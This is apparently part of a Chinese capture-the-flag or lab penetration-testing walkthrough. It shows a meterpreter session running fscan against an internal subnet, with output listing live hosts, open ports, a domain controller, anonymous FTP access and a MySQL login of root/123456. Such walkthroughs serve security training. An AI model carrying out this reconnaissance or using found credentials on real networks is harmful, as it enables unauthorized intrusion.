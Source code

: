 ## 信息搜集

使用 fscan 对内网网段进行扫描

```plain
meterpreter > shell -c './fscan -h 172.22.13.14/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.22.13.14    is alive
(icmp) Target 172.22.13.6     is alive
(icmp) Target 172.22.13.28    is alive
(icmp) Target 172.22.13.57    is alive
[*] Icmp alive hosts len is: 4
172.22.13.14:80 open
172.22.13.14:21 open
172.22.13.28:445 open
172.22.13.6:445 open
172.22.13.28:139 open
172.22.13.6:139 open
172.22.13.28:135 open
172.22.13.6:135 open
172.22.13.57:80 open
172.22.13.28:80 open
172.22.13.57:22 open
172.22.13.14:8080 open
172.22.13.28:8000 open
172.22.13.14:22 open
172.22.13.28:3306 open
172.22.13.6:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.13.6
   [->]WIN-DC
   [->]172.22.13.6
[*] NetInfo 
[*]172.22.13.28
   [->]WIN-HAUWOLAO
   [->]172.22.13.28
[*] WebTitle http://172.22.13.14       code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios 172.22.13.6     [+] DC:XIAORANG\WIN-DC         
[+] ftp 172.22.13.14:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] NetBios 172.22.13.28    WIN-HAUWOLAO.xiaorang.lab           Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.13.57       code:200 len:4833   title:Welcome to CentOS
[*] WebTitle http://172.22.13.28       code:200 len:2525   title:欢迎登录 OA 办公平台
[*] WebTitle http://172.22.13.28:8000  code:200 len:170    title:Nothing Here.
[*] WebTitle http://172.22.13.14:8080  code:200 len:3655   title:公司发货单
[+] mysql 172.22.13.28:3306:root 123456
```
